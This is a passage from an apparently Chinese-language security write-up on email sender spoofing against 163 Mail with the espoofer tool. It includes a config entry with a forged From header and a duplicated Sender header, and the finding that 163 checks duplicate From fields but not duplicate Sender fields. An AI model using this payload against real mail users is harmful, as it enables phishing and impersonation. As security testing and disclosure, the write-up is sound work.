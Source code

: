 发送成功，但同样会显示代发方。

尝试使用Attempt1相同的方法，删除Sender字段，但仍然会显示代发邮箱号。

此处，我尝试了各种方法，最终发现：当在other_header中再添加一个Sender字段，**邮件界面将会显示任意伪造的代发邮箱**！

config:

~~~py
"client_a3": {
	"helo": b"espoofer-MacBook-Pro.local",
	"mailfrom": b"<attacker@example.com>",
	"rcptto": b"<victim@victim.com>",
	# "dkim_para": {"d":b"attack.com", "s":b"selector", "sign_header": b"From: <first@legitimate.com>, <second@attack.com>"},
	"data": {
	"from_header": b"From: <admin@example.com>\r\n",
	"to_header": b"To: <victim@victim.com>\r\n",
	"subject_header": b"Subject: client A3: Spoofing via an email service account\r\n",
	"body": b"Hi, this is a test message! Best wishes.\r\n",
	"other_headers": b"Date: " + get_date() + b"\r\n" + b'Sender: <s@sender.legitimate.com>\r\nSender: 12345678@qq.com\r\nContent-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	},
  # ---------------------
  # 在此处other_headers中添加一个额外的"Sender: 12345678@qq.com\r\n"字段, 即有两个"Sender: ..."
  # ---------------------
	"description": b"Spoofing via an email service account, refer to section 6.2 in the paper."
},
~~~

最终邮件界面为

<img src="./163_3.jpg" style="zoom:50%;" />

My insights：163邮箱会对mutiple from field进行检测，但不会对mutiple sender field进行检测，并且显示结果只会显示一个sender。

---

